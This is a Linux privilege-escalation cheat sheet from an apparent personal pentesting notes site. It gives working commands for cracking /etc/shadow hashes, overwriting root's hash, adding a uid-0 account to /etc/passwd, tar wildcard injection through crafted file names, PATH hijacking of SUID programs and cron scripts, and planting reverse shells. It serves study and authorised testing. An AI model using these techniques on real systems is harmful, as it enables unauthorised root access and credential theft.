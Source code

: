```yaml
---
template: overrides/author.html
title: Linux Privilege Escalation
---
```


<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>__suhao__ · @h40huynh</span>
<span>
:octicons-calendar-24: Aug 19, 2022 ·
:octicons-clock-24: 3 min read
</span>
</aside>

  [built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
  [@squidfunk avatar]: ../assets/author/haoicon.png
  [insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

!!! note
    It is not always possible to escalate privileges to root, we have to escalate privileges to another non-root user, then escalate privileges to root

## Enumerate Basic information

Get current user context and hostname

```bash
id && hostname
```

## Service Exploits

Enumerate running proccess

```bash
ps aux
ps aux | grep root
```

Enumerate binding ports

```bash
netstat -ano
```

```bash
ss -anp
```

## Weak File Permissions

### /etc/shadow

!!! info
    The /etc/shadow file contains user password hashes

Get /etc/shadow permissions

```bash
ls -l /etc/shadow
```

#### Readable /etc/shadow

```bash
cat /etc/shadow
```

Save the root user (or someone you want to privilege escalate to) to a file and use `john` to crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Finally, switch user with cracked password

```bash
su root
```

#### Writable /etc/shadow

Generate a new password:

```bash
mkpasswd -m sha-512 newpassword
```

Edit the /etc/shadow file and replace the root password hash. Finally, switch user with new password. Here is the empty password hash

```
root:$6$1.kHoCdgGLxINgw$TQbdEgrYcctS4/o7EKtmWaxwBoOHaeU2nK4B66Any.4ksSyb5FFedubBtSs.Rc9DkxD02ju7RfK/I0U8MXdb50:17298:0:99999:7:::
```

### Writable /etc/passwd

!!! info
    The /etc/passwd file contains information about user accounts. It usually only readable.


Get /etc/passwd permissions

```bash
ls -l /etc/passwd
```

Generate a new password

```bash
openssl passwd newpassword
```

Then, copy the root user row, replace username with and the "x" field with the new password to create new root user. Here is a new user with username is `lithonn` and password is empty (empty not "empty")

```
lithonn:lF/bBdY9ikuzY:0:0:root:/root:/bin/bash
```

## Sudo

!!! info
    The `sudo` command allows user to run a program with root privileges. In some cases you may have permission to run some commands with sudo privileges without a password.

```bash
sudo -l
```

!!! warning
    Use the same command as in the output of the `sudo -l` command, without shortening.

## Cron Jobs

!!! info
    Cron jobs are programs/scripts run at specific times or interval.

```bash
ls -lah /etc/cron*
```

```bash
cat /etc/crontab
```

### File permissions

The cron job script can be modify by non owner user. Depending on the situation, we ca replace the script with:

- Our reverse shell
- Set SUID for /bin/bash (or other program)
- Change/Create root user
- ...

### PATH Environment Variable

Look for PATH variable in `/etc/crontab`

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

...
```

Then, check the permission on `/home/user`, if have write permssion, replace the cron job execute script.

### Wildcards injection

Backup scripts often use `tar` to create compress files. If using tar with wildard (*), wildcard injection technique can be used to exploit.

Create 2 files with names: `--checkpoint=1` and `--checkpoint-action=exec=shell.elf`

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

Wait for cron job to compress files. The tar command will interpret files `--checkpoint=1` and `--checkpoint-action=exec=shell.elf` as 2 options instead of file names.

See more exploits at https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

!!! note
    Can use this exploit with SUID


## SUID/SGID

The SUID/SGID allows files to be executed with the permission level of the file owner or the group owner.

Enumerate for SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

### SUID Known Exploits

See how to exploit on [GTFOBins](https://gtfobins.github.io) and [ExploitDB](https://www.exploit-db.com/)

### SUID Environment variables

Use `strings` to look for relative path program. Example: call `service` instead of `/usr/bin/service`

```bash
strings /usr/bin/suidprogram
```

Then, create a fake program

```bash
echo "bash -p" > /tmp/service
```

Add /tmp to `$PATH`

```bash
export PATH=/tmp:$PATH
```

Finally, run the SUID

## NFS

## Kernel exploit

```bash
uname -a
```

```bash
cat /etc/issue
```

```bash
cat /etc/*-release
```